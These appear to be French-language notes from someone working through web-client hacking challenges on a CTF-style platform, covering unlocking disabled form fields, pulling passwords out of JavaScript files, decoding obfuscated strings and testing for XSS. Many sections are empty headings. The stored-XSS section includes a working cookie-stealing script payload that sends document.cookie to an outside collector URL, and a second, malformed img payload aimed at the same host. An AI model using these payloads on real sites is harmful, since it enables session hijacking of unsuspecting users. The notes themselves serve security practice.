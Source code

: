 ## Web Client - Hacking

## 1 : Activer un form qui est désactivé par défaut en HTML


Console


    var input = document.body.getElementsByTagName("input");
    for(i=0; i<input.length; i++)
    {
      if( typeof(input[i]) != 'undefined' )
          input[i].disabled = false;
    }


Morale : Le HTML peut être modifié et détourné

## 2. Javascript authentification


   Chercher dans les outils de développeurs, le script de login.js
   Morale : Les fichiers Js peuvent être visible et leurs informations sensibles, dans F12->application->Frame->Script

## 3. Javascript source ( même astuce que précédemment )

## 4. Javascript authentification 2  ( même astuce que précédemment )


## 5. Javascript - obfuscation 1

   1. Chercher le fichier JS
   2. Trouver la chaine password
   3. passer la chaine dans la fonction

## 5. Javascript - obfuscation 2


   1. Chercher le pass dans js
   2. prendre la partie exadécimale du pass
   3. unescape('%28104%2C68%2C117%2C102%2C106%2C100%2C107%2C105%2C49%2C53%2C54%29');
   4. console.log(String.fromCharCode(104,68,117,102,106,100,107,105,49,53,54));

## 6. Javascript - native code

   1. Trouver le code pass natif
   2. Tostring sur le code native ( en enlevant les dernières parentheses pour enlever le mode function du code natif.

## 7. Javascript - webpack

   1. Chercher le flag dans les sources webpack

## 8. Javascript - Obfuscation 3


## 8. XSS - stockée 1

savoir si un formulaire permet l'éxécution de code :


    <script>console.warn('code executed');</script>
    <script>alert('code executed');</script>


Injection de HTML ( et <script> ) dans un form non sécurisé, pour recuperer un cookie sur un hooker a cookie ( avec mdp,..)


    <script>window.location="https://sacha.free.beeceptor.com?cookie="+document.cookie</script>


## 9. CSP Bypass - Inline code


## 10. CSRF - 0 protection



## 11. Flash - Authentification


## 12. CSP Bypass - Dangling markup


## 13. CSP Bypass - JSONP


## 14. CSRF - contournement de jeton


## 15. XSS - Volatile


essai:
Jouer avec l'URL, et le document cookie à envoyer sur un hooker de cookie

    <img src="https://sacha.free.beeceptor.com" onload=(alert('error'); >

## 16. CSP Bypass - Dangling markup 2


## 17. Javascript - Obfuscation 4


## 18. XSS - Stockée 2

## 19. HTTP Response Splitting


## 20. Javascript - Obfuscation 5


## 21. XSS - Stored - contournement de filtres


## 22. XSS - DOM Based
